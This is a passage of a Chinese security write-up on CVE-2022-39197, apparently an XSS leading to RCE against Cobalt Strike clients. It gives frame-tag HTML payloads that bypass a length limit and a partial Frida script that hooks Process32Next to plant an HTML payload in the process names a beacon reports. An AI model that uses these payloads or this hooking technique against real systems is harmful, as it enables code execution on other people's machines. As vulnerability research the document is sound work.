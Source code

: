 解决方法是套一个frameset

    
    
    <html><frameset rows=*><frame src=x>  
    

当然还有一个小技巧可以进一步压缩

    
    
    <html>1<frame src=x>  
    

这也是可以运行的。这在jdk高版本的时候是可以成功引入外部页面的，但是在java8俗称j8的jdk1.8上却会报错

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220927173821.png)

这个是由于frame在渲染frameview的时候会强制转换其父组件的类型为这个类型，然而转换失败了就会报错。这个问题在jdk1.8里是无解的，这也是我在一开始认为无法绕过首页长度限制的原因（因为我用的jdk1.8）。好了，总之引用frame标签就可以绕过首页的长度限制了。那么如何在jdk1.8的情况下继续攻击目标呢？

## 0x06 无视jdk版本的RCE

前面解释过了，首页受到metadata的长度的限制，几乎只有frame标签可以绕过限制，而jdk1.8版本的情况下是不可能使用frame标签进行绕过的。那么我们如何进行攻击？这时候我们就要退而求其次，假设攻击者可以和beacon进行交互操作的情况下看看能不能RCE。答案是肯定的。正如前面所说，beacon和teamserver的交互大体分为两个部分一个是上线包的RSA另一个是后续命令下发的AES，因此我们只需要在命令下发的AES流程里注入数据，那就可以无视metadata的长度限制问题从而进行RCE了。这样讲很抽象，可以看点实际的。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220927173823.png)

也就是说除了首页那个列表和eventlog以外所有命令下发的回显和交互都是在AES里传递数据的，因此只要我们能看到的界面数据可以控制，就可以进行XSS攻击！这里我通过frada脚本来hook
win
api修改tasklist返回的进程名，将进程名改写成攻击payload，当攻击者点击beacon执行列出进程时，只要他浏览到带有payload的进程名，就会执行RCE！我在这个项目的基础上进行的修改`https://github.com/TomAPU/poc_and_exp/blob/master/CVE-2022-39197/cobaltfire.py`
我的frada脚本内容是

    
    
    import frida  
    import time  
    import argparse  
      
      
    def spoof_user_name(target,url):  
        #spawn target process  
        print('[+] Spawning target process...')  
        pid=frida.spawn(target)  
        session=frida.attach(pid)  
      
        js='''  
        var payload="<html>beacon.exe            <object classid='xxx.xxx.xxx.xxx'><param name='xxx'value='xxx'>"  
        payload=Array.from(payload).map(letter => letter.charCodeAt(0))  
          
        var Process32Next=Module.findExportByName("kernel32.dll", 'Process32Next')  
      
        Interceptor.attach(Process32Next, {  
            onEnter: function(args) {  
                //var hProcessSnap=args[0]  
                var info=args[1];  
                this.info = info;  
                //console.log(this.info);  
                this.szExeFile=this.info.add(0x24);  
                  